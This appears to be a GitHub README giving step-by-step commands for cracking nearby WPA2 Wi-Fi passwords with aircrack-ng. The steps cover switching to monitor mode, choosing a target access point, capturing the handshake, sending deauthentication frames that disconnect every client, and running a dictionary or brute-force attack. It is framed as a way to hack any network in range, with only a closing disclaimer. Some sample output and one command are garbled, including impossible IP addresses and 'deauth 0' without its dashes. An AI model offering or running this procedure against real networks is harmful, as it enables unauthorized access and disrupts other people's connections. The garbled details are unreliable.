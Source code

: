 # Hack Wi-Fi
This repo contains every step to hack any Wi-Fi in your surroundings.  

**The basic requirement is having a Linux distro booted in your Machine or in a Virtual Machine.**
   - Using VM requires an external Wi-Fi network adapter that should support monitor mode. (Recommended: Alfa network adapter)
   - Using your machine doesn't require any external Wi-Fi adapter if the internal one supports monitor mode.  

## Install aircrack-ng:  

Arch:
```
sudo pacman -S aircrack-ng
```
Kali:
```Managed
sudo apt-get update
sudo apt-get upgrade aircrack-ng
```
Ubuntu/Debian:
```
sudo apt-get update
sudo apt-get install aircrack-ng
```
Fedora:
```
sudo dnf install aircrack-ng
```


## Check your wireless LAN adapter name:  

```
ip addr
```
**Find your LAN adapter name below:**  
Here it is wlan0.
```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 123.0.0.4/5 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp2s0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc fq_codel state DOWN group default qlen 1000
    link/ether 04:42:1a:d0:ee:f4 brd ff:ff:ff:ff:ff:ff
3: wlan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 90:e8:69:2c:x8:77 brd ff:ff:ff:ff:ff:ff
    inet 142.168.839.07/16 brd 195.168.255.255 scope global dynamic noprefixroute wlan0
       valid_lft 84054sec preferred_lft 84054sec
    inet6 fe60::a3f5:fq53:55c:b0e7/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```


## Change your adapter from managed mode to monitor mode  

**Check it's mode:**
```
iwconfig
```
It should be in managed mode at its initial stage. The wlan0 says it's mode.
```
lo        no wireless extensions.

enp2s0    no wireless extensions.

wlan0     IEEE 802.11  ESSID:"L**Y"  
          Mode:Managed  Frequency:5.2 GHz  Access Point: 54:2A:75:9C:33:64   
          Bit Rate=585 Mb/s   Tx-Power=3 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=63/70  Signal level=-47 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0

```
**Checking for any conflicting process to kill them:**
```
sudo airmon-ng check kill
```  

**Changing the LAN to monitor mode:**
```
sudo airmon-ng start wlan0
```
Your Wi-Fi connection is deactivated now.

**Check it's mode now:**
```
iwconfig
```
It should be in monitor mode at this stage. The wlan0 says it's mode.
```
lo        no wireless extensions.

enp2s0    no wireless extensions.

wlan0mon  IEEE 800.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=3 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```
If you try to check, the wlan0 name is changed to wlan0mon, because we have changed it to monitor mode.  



## Discover the Access Points:  

```
sudo airodump-ng wlan0mon
```
A whole bunch of wireless networks will be discovered here. From there note the BSSID(Would be found in the BSSID column) and the Channel(Would be found in the CH column) of your targeted wireless network. After being done with noting down that information, stop (Ctrl + C) the process.  

**Display only the targetted access point:**
```
sudo airodump-ng wlan0mon -d <BSSID>
```
Replace the above < BSSID > with your targetted network's BSSID that you noted before.  

It will show the information of your targetted network and below it shows the connected device with that network. If you see it is empty below that means,  no devices are connected with that network, and in that case, you need to connect a device so that the handshake file can be exchanged with the AP(Access Point) and you get the chance to capture it on it's way. When you see any connected device below, stop (Ctrl + C) the process.



## Storing the captured HandShake file to the local:  

```
sudo airodump-ng -w getpass -c <CHANNEL> --bssid <BSSID> wlan0mon
```
Replace < CHANNEL > with the channel for your targeted network and < BSSID > with your BSSID.  

Here ```getpass``` is going to be the file name of the handshake file we would store.
Don't stop the process (Follow the next steps instead) and leave it till we send the de-authentication request and get the handshake file.



## Send the De-Authentication request:  

Open a new console window and input the command there. That means you are instructed not to kill the process of the previous tab. That should be opened because we will get that file on that other window only.  
Enter the below command in the new tab of the console.
```
sudo aireplay-ng deauth 0 -a <BSSID> wlan0mon
```
Replace < BSSID > with your BSSID of the targeted AP.  

This sends the De-Authentication request to the targetted network which means, that each and every connected device will be disconnected and will try to reconnect with the AP again. This is the time we will capture the handshake file and will store it locally. Stop the process after 30 to 45 seconds.



## Checking the directory if the Handshake is captured:  

```clear``` all the commands.
List the current directory by ```ls```
If any file named ```getpass-01.cap```is found that means the file is captured and it is ready to be cracked.
If nothing is found named ```getpass-01.cap``` that means the whole process should be completed correctly again.



## Cracking the HandShake file using aircrack-ng (Dictionary Attack):  

Cracking that file needs some wordlists. A word list is available in this repo and this should be downloaded.  
For more wordlists, it is recommended to visit - [wpa2-wordlists](https://github.com/kennyn510/wpa2-wordlists)  
List the directory by ```ls``` to make sure both the wordlist and the Handshake file are present there.  

**Use the below command to crack the key:**  

```aircrack-ng getpass-01.cap -w <WORDLIST-PATH>```  
Replace < WORDLIST-PATH > with the path of the wordlist downloaded.  

_Now the output is either 'THE KEY IS FOUND' or 'THE KEY IS NOT FOUND'. If the key couldn't be found in that particular wordlist, try with a few other wordlists available._  
It is also suggested to go with a BruteForce attack if the key can't be found in wordlists.


## Switch to managed mode again from monitor mode:  

```
sudo airmon-ng stop wlan0
```
Your Wi-Fi connection is activated now and it has been changed to wlan0 from wlan0mon.



## DISCLAIMER
_Using tools like Aircrack-ng for unauthorized access to Wi-Fi networks is illegal and unethical. Engaging in such activities can lead to severe legal consequences. This is for educational purposes only_

